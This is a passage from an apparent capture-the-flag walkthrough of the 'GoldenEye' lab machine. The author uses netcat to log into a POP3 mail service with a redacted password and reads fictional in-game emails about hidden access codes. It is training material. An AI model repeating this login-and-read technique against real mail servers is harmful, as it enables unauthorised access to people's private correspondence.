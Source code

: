 ```highlight
Boris, I can break your codes!
.
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id 4B9F4454B1
        for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this s
erver then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and capture
d our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.

.
```

I repeated the same process for natalya.

```highlight
└──╼ $nc 10.10.50.94 55007
+OK GoldenEye POP3 Electronic-Mail System
user natalya
+OK
pass <<redacted>>
+OK Logged in.
list
+OK 2 messages:
1 631
2 1048
.
retr 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
RETR 2
+OK 1048 octets
```